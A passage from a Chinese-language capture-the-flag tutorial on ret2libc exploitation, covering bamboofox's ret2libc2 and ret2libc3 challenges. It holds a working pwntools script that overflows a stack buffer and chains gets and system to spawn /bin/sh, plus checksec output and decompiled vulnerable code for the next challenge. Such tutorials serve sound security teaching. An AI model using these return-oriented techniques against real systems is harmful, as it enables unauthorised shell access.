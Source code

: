 这里我们需要注意函数调用栈的结构，如果是正常调用system函数，我们调用的时候会有一个对应的返回地址，这里以'bbbb'作为虚假的地址，其后参数对应的参数内容。

这个例子，相对来说，最为简单，同时提供了system地址与/bin/sh的地址，但是大多数程序并不会有这么好的情况。

### 例2

这里以bamboofox中的ret2libc2为例，该题目与例1基本一致，只不过不再出现/bin/sh字符串，所以此次需要我们自己来读取字符串，所以我们需要两个gadgets，第一个控制程序读取字符串，第二个控制程序执行system(""/bin/sh")。由于漏洞与上述一致，这里就不在多说，具体的exp如下

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2libc2')

gets_plt = 0x08048460
system_plt = 0x08048490
pop_ebx = 0x0804843d
buf2 = 0x804a080
payload = flat(
    ['a' * 112, gets_plt, pop_ebx, buf2, system_plt, 0xdeadbeef, buf2])
sh.sendline(payload)
sh.sendline('/bin/sh')
sh.interactive()
```

需要注意的是，我这里向程序中bss段的buf2处写入/bin/sh字符串，并将其地址作为system的参数传入。这样以便于可以获得shell。

### 例3

这里以bamboofox中的ret2libc3为例，在例2的基础上，再次将system函数的地址去掉。此时，我们需要同时找到system函数地址与/bin/sh字符串的地址。首先，查看安全保护

```shell
➜  ret2libc3 checksec ret2libc3
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出，源程序仍旧开启了堆栈不可执行保护。进而查看源码，发现程序的bug仍然是栈溢出

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets((char *)&v4);
  return 0;
}
```
